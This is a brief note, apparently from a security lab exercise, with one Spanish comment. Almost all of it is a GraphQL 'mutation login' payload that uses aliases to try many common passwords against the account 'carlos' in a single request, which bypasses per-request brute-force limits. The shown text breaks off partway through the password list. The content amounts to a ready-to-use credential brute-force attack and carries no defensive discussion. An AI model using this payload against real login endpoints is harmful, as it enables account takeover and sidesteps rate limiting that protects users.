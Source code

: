 ```javascript

```


payload final, importante ponerle nombre a la operación  (mutation login )
``` json
mutation login {
  bruteforce0: login(input: { password: "123456", username: "carlos" }) {
    token
    success
  }
  bruteforce1: login(input: { password: "password", username: "carlos" }) {
    token
    success
  }
  bruteforce2: login(input: { password: "12345678", username: "carlos" }) {
    token
    success
  }
  bruteforce3: login(input: { password: "qwerty", username: "carlos" }) {
    token
    success
  }
  bruteforce4: login(input: { password: "123456789", username: "carlos" }) {
    token
    success
  }
  bruteforce5: login(input: { password: "12345", username: "carlos" }) {
    token
    success
  }
  bruteforce6: login(input: { password: "1234", username: "carlos" }) {
    token
    success
  }
  bruteforce7: login(input: { password: "111111", username: "carlos" }) {
    token
    success
  }
  bruteforce8: login(input: { password: "1234567", username: "carlos" }) {
    token
    success
  }
  bruteforce9: login(input: { password: "dragon", username: "carlos" }) {
    token
    success
  }
  bruteforce10: login(input: { password: "123123", username: "carlos" }) {
    token
    success
  }
  bruteforce11: login(input: { password: "baseball", username: "carlos" }) {
    token
    success
  }
  bruteforce12: login(input: { password: "abc123", username: "carlos" }) {
    token
    success
  }
  bruteforce13: login(input: { password: "football", username: "carlos" }) {
    token
    success
  }
  bruteforce14: login(input: { password: "monkey", username: "carlos" }) {
```